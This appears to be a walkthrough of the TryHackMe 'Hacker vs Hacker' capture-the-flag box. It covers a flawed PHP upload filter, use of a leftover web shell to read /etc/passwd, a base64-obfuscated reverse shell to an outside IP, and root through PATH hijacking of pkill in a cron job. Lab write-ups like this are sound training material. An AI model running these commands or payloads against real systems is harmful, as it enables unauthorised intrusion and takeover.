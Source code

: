```yaml
---
layout: post
title: tryhackme - hacker vs hacker
---
```


# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap  nope.thm  -v
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

visiting the web server shows the website has a file upload functionality 

![file_upload.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/file_upload.png)

it was giving the following result whenever I tried to upload a file

![hacked.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/hacked.png)

examining the upload requests shows some commented php source code in the server response

![server_response.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/server_response.png)

```php
-->Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

this is a basic vulnerable file upload code in PHP, where the programmer only checks for the presence of an allowed extension (in this case `.pdf`), if it’s found then the file is uploaded to the server with a random name under `cvs/` directory

I took a loot at `cvs/` but the listing was disabled

![listing_disabled.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/listing_disabled.png)

at first I thought this is actual code for `upload.php` so I tried uploading some shell with the name `shellcode.pdf.php`, but after getting the same response from the server when trying to upload different files, I figured that the attacker uploaded his shell on the server and removed the upload functionality, the idea of this box is to think like a hacker who already made his was inside, so I checked for the presence of `nope.thm/cvs/shell.pdf.php` and …

 

![boom.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/boom.png)

then I tried to give it an argument via `cmd` parameter and it worked as well!

[`http://nope.thm/cvs/shell.pdf.php?cmd=ls`](http://nope.thm/cvs/shell.pdf.php?cmd=ls)

![cmd.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/cmd.png)

next thing I did was getting the list of users on the system [`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd`](http://nope.thm/cvs/shell.pdf.php?cmd=cat+/etc/passwd), getting the user flag from `/home/lachlan/user.txt` ([`http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt`](http://nope.thm/cvs/shell.pdf.php?cmd=cat+/home/lachlan/user.txt)) then getting a reverse shell with [`http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=|base64+-d|bash`](http://nope.thm/cvs/shell.pdf.php?cmd=echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuOC4xNDQuMTQ5LzEwMDAwIDA8JjEgMj4mMQo=%7Cbase64+-d%7Cbash)

![reverse_connection.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/reverse_connection.png)

there was an annoying bit about this box, which is that you couldn’t spawn a pty duo to a crontab killing all `pts`s so the moment you hit `ctrl-c` by mistake you loose your shell

```php
$ python3 -c'import pty;pty.spawn("/bin/bash")'
www-data@b2r:/var/www/html/cvs$ nope
$ :cri:
/bin/bash: line 3: :cri:: command not found
$ ps aux | grep pkill
root        1715  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1717  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
root        1720  0.0  0.1   2608   596 ?        Ss   10:35   0:00 /bin/sh -c /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

# priv esc

I found a `.bash_history` file under `/home/lachlan/` with `lachlan`'s plaintext password

```bash
$ ls /home
lachlan
$ ls /home/lachlan -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
bin
user.txt
$ cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

next we login to the machine via ssh, note that the `-T` is important not to create a `pts`m cause otherwise the `pkill` loop would kill our connection

```bash
$ ssh -T lachlan@nope.thm
lachlan@nope.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Aug 2022 11:06:20 AM UTC

  System load:  0.0               Processes:             126
  Usage of /:   25.0% of 9.78GB   Users logged in:       0
  Memory usage: 51%               IPv4 address for eth0: 10.10.37.216
  Swap usage:   0%

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

id
uid=1001(lachlan) gid=1001(lachlan) groups=1001(lachlan)
```

now to check the persistence method that the hacker left on the machine

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

two things to note here

- `/home/lachlan/bin` is the first entry on the `PATH`
- `pkill` is invoked without an absolute file path
    
    so dropping a malicious `pkill` script under `/home/lachlan/bin` should get us `root` privileges
    
    ![root.png](hacker%20vs%20hacker%205c0c2a25e131417ea6b0ce352f442647/root.png)
